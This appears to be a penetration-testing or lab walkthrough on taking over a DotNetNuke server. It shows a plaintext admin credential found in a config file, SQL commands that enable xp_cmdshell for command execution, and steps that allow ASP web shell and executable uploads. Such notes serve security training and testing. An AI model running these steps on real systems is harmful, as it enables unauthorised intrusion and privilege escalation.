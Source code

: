 # Exploitation & Privilege Escalation

## 🎯 Overview

**Exploitation & Privilege Escalation** transforms **credential discovery** into **SYSTEM-level access** on internal hosts. Leverage **DotNetNuke (DNN) administrative access**, enable **xp_cmdshell**, exploit **SeImpersonate privileges** with **PrintSpoofer**, and establish **multiple persistence methods** for reliable internal network control.

## 🌐 DotNetNuke (DNN) Exploitation

### 🔐 Administrative Access
```bash
# Credential validation from NFS discovery
Administrator:D0tn31Nuk3R0ck$$@123
# Source: /DEV01/DNN/web.config

# Login verification
http://172.16.8.20/Login?returnurl=%2fadmin
# Result: SuperUser administrator account access

# Findings to document:
1. Insecure File Shares (NFS anonymous access)
2. Sensitive Data on File Shares (credentials in config)
```

### 🛠️ SQL Console Exploitation
```sql
-- Enable xp_cmdshell for command execution
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

-- Test command execution
xp_cmdshell 'whoami'
-- Output: nt service\mssql$sqlexpress
```

### 📁 File Extension Bypass
```cmd
# DNN file upload configuration:
1. Settings → Security → More → More Security Settings
2. Allowable File Extensions: asp,aspx,exe,SAVE
3. Save configuration

# Upload capabilities enabled:
- ASP web shells (.asp, .aspx)
- Executable files (.exe)
- Registry dumps (.SAVE)
```
